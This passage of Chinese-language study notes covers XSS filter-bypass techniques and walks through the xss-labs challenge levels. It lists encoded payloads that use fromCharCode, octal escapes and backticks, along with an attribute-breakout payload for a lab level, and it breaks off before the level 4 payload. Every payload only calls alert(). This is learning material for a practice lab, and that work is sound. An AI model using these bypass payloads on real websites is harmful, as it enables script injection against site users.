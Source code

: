 
ASCII `<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">`

8进制 `<img src=x onerror=alert('\170\163\163')>`

3. 当过滤单双引号时，可以同上用编码绕过，如果是在html元素内，`JavaScript`可以用反引号代替。

``<img src="x" onerror=alert(`xss`);>``

---
参考：
- [1] [XSS过滤绕过总结](https://www.cnblogs.com/sfsec/p/15178028.html)

### xss-labs实战

1.level1没有任何设防

2.level2先直接给`keyword`传入参数`<script>alert();</script>`，发现没有反应，查看网页代码：

![网页代码](./xss_fig/xss-labs-level2.png)

发现第一处回显的字符串特殊符号被实体转义了，但是第二处回显在html元素`input`内，可以如下构造payload传给`keyword`进行闭合绕过:

`"><script>alert();</script><"`

3.level3 两处回显都使用了`htmlspecialchars`函数对输入进行实例化，网上找到的解法都是利用单引号没有被实例化给html元素`input`添加`onclick`或其他属性进行绕过，但是我本地测试时单引号也被实例化了，这种情况下好像无法绕过，暂且跳过。

4.level4第二处过滤了`<`,`>`符号
![php代码](./xss_fig/xss-labs-level4.png)
故使用`onfocus`和`JavaScript`伪协议进行绕过，`payload`如下：
